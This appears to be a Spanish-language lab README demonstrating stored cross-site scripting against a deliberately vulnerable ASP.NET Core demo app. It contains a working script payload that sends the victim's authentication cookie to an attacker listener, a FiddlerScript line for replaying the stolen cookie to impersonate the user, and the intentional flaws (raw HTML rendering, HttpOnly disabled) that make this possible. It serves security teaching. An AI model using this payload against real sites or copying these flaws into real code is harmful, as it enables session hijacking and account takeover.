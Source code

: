 Procedimiento

1. Arrancamos el sitio web Server.
2. Ejecutamos la aplicación Attacker.
	- Arranca un listener HTTP para atender a las peticiones forzadas en el servidor, que recibirá y mostrará la solicitud de la víctima con la información confidencial.

3. Como usuario anónimo, en modo InPrivate, accedemos a Contact.
	- Introducimos en el campo vulnerable el siguiente código JavaScript: **<script>image = new Image(); image.src='http://localhost:50666/hack/?cookie='+document.cookie;</script>**
		
4. Nos autenticamos en la aplicación y accedemos a Contact.
	- Se captura la cookie de autenticación del usuario y se envía al atacante.
	
5. Arrancamos Fiddler y, en la pestaña FiddlerScript, modificamos el evento OnBeforeRequest para añadir la siguiente linea: **oSession.oRequest["Cookie"] = (".AspNetCore.Identity.Application=XXX;" + oSession.oRequest["Cookie"])**
	- El usuario anónimo suplanta la identidad del usuario autenticado, mientras Fiddler inyecte la cookie de autenticación en la solicitudes.
	
Información

+ Para el renderizado se utiliza el helper @Html.Raw dado que, de no permitir renderizar HTML, se codificaría para mostrarlo como texto y no se procesaría.
+ Se establece HttpOnly = false para la cookie de autenticación, o no podría ser accesible desde JavaScript.
